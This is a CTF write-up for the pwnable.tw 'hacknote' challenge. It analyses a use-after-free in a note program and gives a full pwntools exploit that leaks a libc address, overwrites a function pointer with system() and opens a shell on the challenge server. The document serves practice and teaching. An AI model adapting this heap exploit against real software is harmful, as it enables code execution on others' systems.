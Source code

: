 
# 📌 **hacknote - pwnable.tw**  

## 🔹 **Vulnerability Analysis**  

### 📌 **Vulnerable Function: `FUN_080487d4`**  
The vulnerability exists in the function **`FUN_080487d4`**, which suffers from a **Use-After-Free (UAF)** issue.  

---

### 🛠️ **Breakdown of the Issue**  

- The program allows us to create **a maximum of 5 notes**, where we specify the size of each note, and memory is allocated dynamically from the **heap**.  
- Each allocated note has an **extra seperate 8 bytes** for a function pointer, which is used when printing the note and the buffer ptr for the note description.  
- When a note is **freed**, its reference is **not set to NULL**, leading to **Use-After-Free (UAF)** and potential **Double-Free** vulnerabilities.  
- However, **Double-Free is not exploitable** here since the program restricts note creation to only 5 times.  
- **UAF is useful**, as it allows us to hijack the function pointer and overwrite it to achieve **EIP control**.  

---

## 🏴 **Exploitation Plan**  

### 1️⃣ **Leaking a libc address**  
- Allocate a **200-byte chunk** and then **free it**.
- Allocate a guard chunk to prevent the target chunk from merging with the top chunk upon being freed.
- Since the chunk goes to the **unsorted bin**, the **bk pointer** will leak an address from the **main arena** in libc.  
- Allocate a new chunk smaller than 200 bytes to write the first 4 bytes which are zeroed to leaking the bk pointer (the next 4 bytes).

### 2️⃣ **Hijacking the Function Pointer**  
- Allocate two chunks of random sizes (each greater than 16 bytes) to ensure they don’t end up in the same fastbin bucket (which holds chunks up to 16 bytes). The additional 8 bytes allocated alongside each chunk will help us later retrieve and overwrite the function pointer used for printing the note.
  ```
    +-------------------------------+
    |      chunk1 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk1 ptr        |
    +-------------------------------+  <- Chunk 1 metadata
    |        40 bytes               |
    +-------------------------------+
    |      chunk2 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk2 ptr        |
    +-------------------------------+  <- Chunk 2 metadata
    |        40 bytes               |
    +-------------------------------+
    |            TOP                 |  <- Top chunk (wilderness)
    |            ...                 |
    +-------------------------------+
  ```
- Free them, and then allocate a new **8-byte chunk**.
  ```
      +-------------------------------+
    |    Chunk 3 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk1 ptr        |
    +-------------------------------+  
    |            FREE                |
    +-------------------------------+
    |       Chunk 3 (8 bytes)        |
    +-------------------------------+
    |  system  |        sh           |
    +-------------------------------+  
    |            FREE                |
    +-------------------------------+
    |            TOP                 |  <- Top chunk (wilderness)
    |            ...                 |
    +-------------------------------+
  ```
- This allows us to **reclaim a previously freed note’s chunk** from the fastbin.  
- Overwrite the **function pointer** (used for printing notes) with **`system()`**, leading to **EIP control** and **shell execution**.  
- UAF for the previous note to print its content which will result in calling system.
---

## 🔹 **Exploit Code**  
```python
#!/usr/bin/python3.10
from pwn import *

# p = process("./hacknote_patched")
p = remote("chall.pwnable.tw", 10102)

index = 0

def add_note(p, size, note):
    p.sendafter("Your choice :", "1")
    p.sendafter("Note size :", str(size))
    p.sendafter("Content :", note)

def delete_note(p, ind):
    p.sendafter("Your choice :", "2")
    p.sendafter("Index :", str(ind))

def print_node(p, ind, data2recv):
    p.sendafter("Your choice :", "3")
    p.sendafter("Index :", str(ind))
    if data2recv != "" :
	    p.recvuntil("CCCC")
	    return p.recvline()[:-1]


puts_got_addr = 0x804a024


add_note(p, 200, "AAAA")
add_note(p, 40, "BBBB")
delete_note(p, 0)

# Leak libc address
add_note(p, 16, "CCCC")  # Leak libc - 0x175f38 = system
add_note(p, 40, "DDDD")
addr = int.from_bytes(print_node(p, 0, "CCCC"), "little")
system_addr = addr - 0x175f38

print(f"Leaked address: {hex(addr)}")
print(f"System address: {hex(system_addr)}")


delete_note(p, 0)
delete_note(p, 3)
add_note(p, 8, p32(system_addr, "little") + b';sh\x00')
print_node(p, 0, "")

p.interactive()
